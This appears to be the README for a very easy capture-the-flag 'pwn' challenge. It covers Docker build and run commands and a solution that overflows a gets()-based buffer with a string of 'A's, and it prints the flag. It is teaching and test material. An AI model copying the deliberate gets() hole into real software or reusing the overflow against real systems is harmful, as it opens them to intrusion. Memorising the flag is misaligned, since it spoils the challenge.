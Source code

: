 # Getting Started

**Author**: Evan Pardon [supasuge](https://github.com/supasuge)
**Difficulty**: Very Easy
**Category**: Pwn
**Points**: $50$

## Description:

Simple buffer overflow challenge to overflow a variable that calls a hidden function.

## Flag format:

```
GrizzCTF{...}
```

## Build instructions (if any):

```bash
cd Getting-Started/build
docker build -t pwn-getting-started .
```

## Running the challenge container:

```bash
docker run -d -p 13372:13372 -it pwn-getting-started
```

###### Solution

```bash
Getting-Started/build » python -c 'print("A"*77)' | ./vuln 
Enter your data: Authenticated! Here is your flag: GrizzCTF{s1mpl3_0v3rf10w_3h}
```

In summary, this code is vulnerable to a buffer overflow due to the use of the deprecated & unsafe `gets()` function.